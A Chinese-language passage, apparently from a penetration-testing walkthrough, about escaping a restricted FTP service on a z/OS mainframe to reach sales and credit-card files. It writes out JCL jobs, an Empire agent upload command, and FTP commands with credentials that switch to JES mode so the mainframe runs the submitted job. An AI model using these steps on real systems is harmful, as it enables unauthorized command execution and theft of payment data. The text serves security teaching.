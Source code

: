 如果我们想监控未来的销售，我们可以很容易地每天回来获取新的数据，但是过去的销售情况呢？信用卡数据？当然，肯定还有其他文件夹或过去几年的档案，我们可以在某些地方访问到。

当前FTP服务中没有其他文件夹，因此我们必须以某种方式逃离此受限制的环境并访问更敏感的文件夹。要做到这一点，我们需要深入研究z/OS的内部结构……振作起来！

前一阵子在Black Hat US上进行了一次有趣的演讲(参阅https://media.blackhat.com/us-13/US-13-Young-Mainframes-The-Past-Will-Come-Back-to-Haunt-You-WP.pdf)，强调了z/OS上FTP的一个有趣特性：命令执行！没错，我们可以利用这个简单的读/写服务向大型机提交作业（程序）。

不幸的是，由于基本的和有限的shell环境，我们不能依赖可用的脚本和工具（MainTP和metaploit脚本）。我们需要弄脏我们的手，并编写一些大型机程序！
> 提示：<br>
> MainTP:参阅https://github.com/mainframed/MainTP <br>
> Metasploit脚本：参阅https://www.bigendiansmalls.com/jcl-scripting-for-metasploit-framework/ <br>

工作相当于一项任务。可以肯定地说，在大型机上运行的所有内容要么是作业，要么是由作业启动的。作业控制语言是用于编写作业的“脚本”语言。

有时被称为z/OS历史上最大的错误(参阅http://archive.computerhistory.org/resources/access/text/2012/11/102658255-05-01-acc.pdf)，这种语言是死板的，几乎没有创造力的空间。好处是你可以反复使用同一个“结构”。我们将从一个基本程序开始，该程序将转储我们在z/OS上的当前权限：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 LISTUSER
/*
//SYSIN DD DUMMY
//SYSTSPRT DD SYSOUT=*
```

每个JCL指令都以双斜杠字符开头。第一行表示作业的名称FTPSRV1，后跟强制的“JOB”关键字。第二行表示我们将执行IKJEFT01程序，这是z/OS上的TSO（类似shell）程序。

这个程序将从SYSIN卡获取输入，我们使用“LISTUSER”命令输入。最后，程序会将命令的输出打印到SYSTSPRT卡指定的控制台日志中。

但是，由于我们无法通过FTP访问此控制台日志，因此我们指示JCL将命令的结果输出到一个新文件（FTPSRV.OUTPUT）中，以便以后下载：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 LISTUSER
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

现在我们已经设置好了，我们可以将这个JCL程序传输到销售服务器（SL0210）。
```
(Empire: SalesFTP) > upload /root/FTPSRV.JOB
c:\users\sysback\appdata\local\
```

它已经准备好送到大型机执行。正常的FTP会话以顺序（SEQ）模式出现，这意味着定期在磁盘之间传输文件。

通过将此模式更改为Job Entry Scheduler（JES），我们可以将文件直接发送到内部读取器，这是一个z/OS组件，它执行接收到的任何内容。

FTP中的命令```quote site file=jes```将使其切换到JES模式。我们以后发送的任何东西都将被视为一项工作，并因此被执行。
```
open 192.168.1.200
FTPSRV
PASS01
quote site file=jes
put C:\Users\sysback\AppData\Local\FTPSRV.JOB
quit
```
